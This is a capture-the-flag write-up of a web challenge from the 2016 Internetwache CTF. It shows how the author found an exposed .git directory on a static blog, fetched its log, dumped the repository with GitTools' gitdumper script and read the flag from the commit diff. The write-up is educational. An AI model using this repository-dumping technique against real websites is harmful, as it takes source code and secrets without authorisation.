 #0ldsk00lBlog
###(web80, solved by 264)


>Description: I stumbled across this kinda oldskool blog. I bet it is unhackable, I mean, there's only static HTML.

>Service: https://0ldsk00lblog.ctf.internetwache.org/

First things first, go to the service and then browse the page and source code:

<html>
<head>
	<title>0ldsk00l</title>
</head>
<body>

	<h1>Welcome to my 0ldsk00l blog.</h1>
	<p>
		Now this is some oldskool classic shit. Writing your blog manually without all this crappy bling-bling CSS / JS stuff.
	</p>

	<h2>2016</h2>
	<p>
		It's 2016 now and I need to somehow keep track of my changes to this document as it grows and grows. All people are talking about a tool called 'Git'. I think I might give this a try.
	</p>

	<h2>1990-2015</h2>
	<p>
		Hmm, looks like totally forgot about this page. I should start blogging more often.
	</p>

	<h2>1990</h2>
	<p>
		I proudly present to you the very first browser for the World Wide Web. Feel free to use it to view my awesome blog.
	</p>

	<h2>1989</h2>
	<p>
		So, yeah, I decided to invent the World Wide Web and now I'm sitting here and writing this.
	</p>
</body>
</html>

Looking at the second paragraph:
`All people are talking about a tool called 'Git'. I think I might give this a try.`

the first thing I wanted to do was check if the website contained a git repo.
`https://0ldsk00lblog.ctf.internetwache.org/.git`

## Forbidden
### You don't have permission to access /.git/ on this server.

This is promising as it verifies that Git is there. The next obvious thing to do is to check and see if we can directly access some git files. The files I tried first are the log files:

`https://0ldsk00lblog.ctf.internetwache.org/.git/logs/HEAD`

Log Results:

```
0000000000000000000000000000000000000000 14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 Sebastian Gehaxelt <github@gehaxelt.in> 1453427711 +0100  commit (initial): Initial commit
14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 dba52097aba3af2b30ccbc589912ae67dcf5d77b Sebastian Gehaxelt <github@gehaxelt.in> 1453427733 +0100  commit: Added next post
dba52097aba3af2b30ccbc589912ae67dcf5d77b 26858023dc18a164af9b9f847cbfb23919489ab2 Sebastian Gehaxelt <github@gehaxelt.in> 1453427864 +0100  commit: Added another post
26858023dc18a164af9b9f847cbfb23919489ab2 8c46583a968da7955c13559693b3b8c5e5d5f510 Sebastian Gehaxelt <github@gehaxelt.in> 1453427881 +0100  commit: My recent blogpost
```

Next, I used a tool called `gitdumper` from `GitTools`

`https://github.com/internetwache/GitTools`

Description: `A repository with 3 tools for pwn'ing websites with .git repositories available`

`./gitdumper.sh https://0ldsk00lblog.ctf.internetwache.org/.git /tmp/git-dump`

Running `git-status` inside the cloned git project shows the output of a single file: `index.html`

Next up, I ran `git checkout .` providing me with the `index.html` file.

Finally, I ran `git show` and was able to see the diff and pick up the flag: `IW{G1T_1S_4W3SOME}`

![Flag](https://github.com/Ninjex/Wargame-Writeups/tree/master/CaptureTheFlag/2016/InternetWache-CTF/web80/web80.png?raw=true "Flag")
